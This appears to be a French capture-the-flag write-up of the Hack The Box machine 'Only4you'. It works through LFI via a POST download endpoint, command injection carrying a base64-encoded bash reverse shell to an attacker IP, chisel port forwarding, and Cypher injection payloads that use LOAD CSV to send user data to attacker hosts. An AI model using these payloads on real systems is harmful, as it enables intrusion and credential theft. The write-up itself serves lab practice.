 # Enum
└─# gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 --append-domain -u http://only4you.htb/
Found: 
```
beta.only4you.htb
```
└─# gobuster dir  -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://beta.only4you.htb/
```
/download             (Status: 405) [Size: 683]
/list                 (Status: 200) [Size: 5934]
/resize               (Status: 200) [Size: 2984]
/source               (Status: 200) [Size: 12127
```

# Exploit
Téléchargement de app.py trought /source
On découvre dans le code source qu'on peut télécharger des fichier à partir de /download avec la methode POST

└─# #Exploit_LFI 
```
curl beta.only4you.htb/download -X POST -d "image=/etc/passwd"
```
*john:x:1000:1000:john:/home/john:/bin/bash*
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
## Burp Intruder
image = `$ $` 
https://github.com/Zelofane22/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt
## result statut 200
/etc/nginx/sites-available/default
/etc/nginx/sites-enabled/default
##
```
curl beta.only4you.htb/download -X POST -d "image=/var/www/only4you.htb/app.py"
```
```
curl beta.only4you.htb/download -X POST -d "image=/var/www/only4you.htb/form.py"
```

On a une execution de code sur la ligne 25
	result = run([f"dig txt {domain}"], shell=True, stdout=PIPE) *FAILLE TROUVER*

## Je tente d'executer un curl sur la sible vers ma machine
└─# curl only4you.htb -X POST -d "name=dine&email=dine@gmail;curl 10.10.17.161&subject=dien&message=dine"
Ma machine à reçu la requête

## 
└─#
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
	YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx 
└─# 
```
curl only4you.htb -X POST -d "name=dine&email=dine@gmail.com;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash&subject=dien&message=dine"
```
# foothold
$ ss -lntp
Il y a des port cachés qui ne fonctionnent qu'en local sur la sible

## Partage des ports sur ma machine
On utilise *Chisel*
### creation du serveur proxi sur ma machine
└─# 
```
./chisel server -p 8000 --reverse
```

www-data@only4you:/tmp$
```
./chisel client 10.10.17.161:8000 R:127.0.0.1:3000 R:127.0.0.1:8001
```

## accès aux port 3000 et 8001

## Cypher injection sur le site hébergé sur le port 8001


[https://github.com/sectroyer/cyphermap](https://github.com/sectroyer/cyphermap "https://github.com/sectroyer/cyphermap")
```
python3 cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=2b1b4d22-6660-46ee-9b41-f97651c21144;" -L   
```

--> table user
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=2b1b4d22-6660-46ee-9b41-f97651c21144;"  -s Sarah -P user -K username,pas
```

```
a' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.194/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // => version a'}) RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.194/?l='+label as l RETURN 0 as _0 <= ne marche pas mais celle d'avant ci, donc go modifier celle d'avant pour adapter a' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.194/?l='+label as l RETURN 0 as _0 // => enum les labels/db maintenant je veux le contenue de "user" : a' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.194/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 // ' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.5:5000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

## recuperation de hashes

## cracker hash
https://crackstation.net/